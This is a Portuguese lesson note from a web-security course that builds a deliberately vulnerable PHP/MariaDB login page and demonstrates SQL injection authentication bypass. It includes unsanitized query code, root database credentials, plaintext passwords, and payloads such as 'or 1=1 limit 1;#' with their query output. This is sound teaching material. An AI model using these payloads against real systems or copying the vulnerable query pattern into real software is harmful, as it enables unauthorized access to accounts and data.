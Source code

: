 --> O objetivo é aprender a encontrar, explorar e manipular vulnerabilidades em bancos de dados

Nessa aula especificamente teremos controle sobre a aplicação e sobre o banco de dados

Das aulas passadas, já tínhamos construído uma base de dados chamada  `desec` na qual inserimos uma tabela de usuários com as colunas de login e senha:

```mysql
MariaDB [desec]> select * from usuarios;
+----+--------+-----------+
| id | login  | senha     |
+----+--------+-----------+
|  1 | admin  | admin     |
|  2 | catulo | 123       |
|  3 | axel   | 123456    |
|  4 | desec  | webmaster |
|  5 | web    | webmaster |
|  6 | admin  | master    |
+----+--------+-----------+
```

index.html
```html
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <title>Desec Security</title>
</head>
<body style="background-color:#1a1a1a; color:white;">
    <center>
        <h2>Login</h2>
        <form action="login.php" method="POST">
            Login: <input type="text" name="login"><br><br>
            Senha: <input type="password" name="senha"><br><br>
            <input type="submit" value="Entrar">
        </form>
    </center>
</body>
</html>
```

login.php
```php
<?php
// Exibir erros para debug
ini_set('display_errors', 1);
error_reporting(E_ALL);

// Verifica se o formulário foi enviado via POST
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    // Conexão com o banco de dados (modo vulnerável)
    $liga = mysqli_connect("localhost", "root", "root", "desec");
    if (!$liga) {
        die("Erro na conexão: " . mysqli_connect_error());
    }
    
    // Pegando dados diretamente (sem filtrar)
    $login = $_POST['login'];
    $senha = $_POST['senha'];
    
    // Consulta vulnerável
    $sql = "SELECT * FROM usuarios WHERE login='$login' AND senha='$senha'";
    $query = mysqli_query($liga, $sql);
    
    // Verifica se encontrou usuário
    if (mysqli_num_rows($query) == 1) {
        header("Location: admin.php");
        exit;
    } else {
        echo "<body style='background-color:#1a1a1a; color: white;'>";
        echo "<center><br><br><hr><h3 style='color:red;'>Login ou Senha Incorretos! =(</h3><hr></center>";
        echo "</body>";
    }
} else {
    // Se não foi POST, redireciona para a página de login
    header("Location: index.html");
    exit;
}
?>
```

admin.php
```php
<?php
echo "<body style='background-color:#1a1a1a'>";
echo "<span style='color:green;'>
        <center><br><br><hr><br>
        <h3>Bem vindo à área autenticada!</h3>
        <br><hr></center>
      </span>";
?>
```

Para iniciar os serviços, devemos:

-Banco de dados do MySQL: `service mysql start`
-Serviço do Apache: `service apache2 start` 
-Iniciar o servidor web local embutido no PHP: `php -S localhost:8000` 

A consulta feita na hora do login é a mesma feita diretamente no banco de dados

```mysql
MariaDB [desec]> select * from usuarios where login='catulo' and senha='123';
+----+--------+-------+
| id | login  | senha |
+----+--------+-------+
|  2 | catulo | 123   |
+----+--------+-------+
MariaDB [desec]> select * from usuarios where login='catulo' and senha='1234';
Empty set (0.001 sec)
```

O SQL Injection ocorre quando conseguimos manipular a informação no campo de login ou no campo de senha, para o caso em que a aplicação não esteja fazendo a validação da entrada do usuário.

O payload que usaremos de teste será justamente a entrada setada pelo usuário, mudando a lógica do programa:
```mysql
MariaDB [desec]> select * from usuarios where login='hacker' or 1=1;#' and senha='123';
+----+--------+-----------+
| id | login  | senha     |
+----+--------+-----------+
|  1 | admin  | admin     |
|  2 | catulo | 123       |
|  3 | axel   | 123456    |
|  4 | desec  | webmaster |
|  5 | web    | webmaster |
|  6 | admin  | master    |
+----+--------+-----------+
```

![[7 img 1.png]]
![[7 img 2.png]]
--> Veja que essa consulta faz que cheguemos à página de login incorreta, pois o banco de dados retorna todas as linhas da query. 
Faremos então a consulta limitando a resposta da consulta para apenas uma linha

```mysql
MariaDB [desec]> select * from usuarios where login='hacker' or 1=1 limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

![[7 img 3.png]]
![[7 img 4.png]]

Os parâmetros de identidade setados não precisam necessariamente ser 1=1. Podem ser algo do gênero 2=2, 3=3, etc.

Podemos pensar em alguns outros tipos de lógica, como a do AND por exemplo.

```mysql
MariaDB [desec]> select * from usuarios where login='qualquer' or 1=1 limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

```mysql
MariaDB [desec]> select * from usuarios where login='admin' and id=1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```

--> Supondo que o admin seria o usuario de id = 1

```mysql
MariaDB [desec]> select * from usuarios where login='admin' and login='admin' limit 1;#' and senha='123';
+----+-------+-------+
| id | login | senha |
+----+-------+-------+
|  1 | admin | admin |
+----+-------+-------+
```
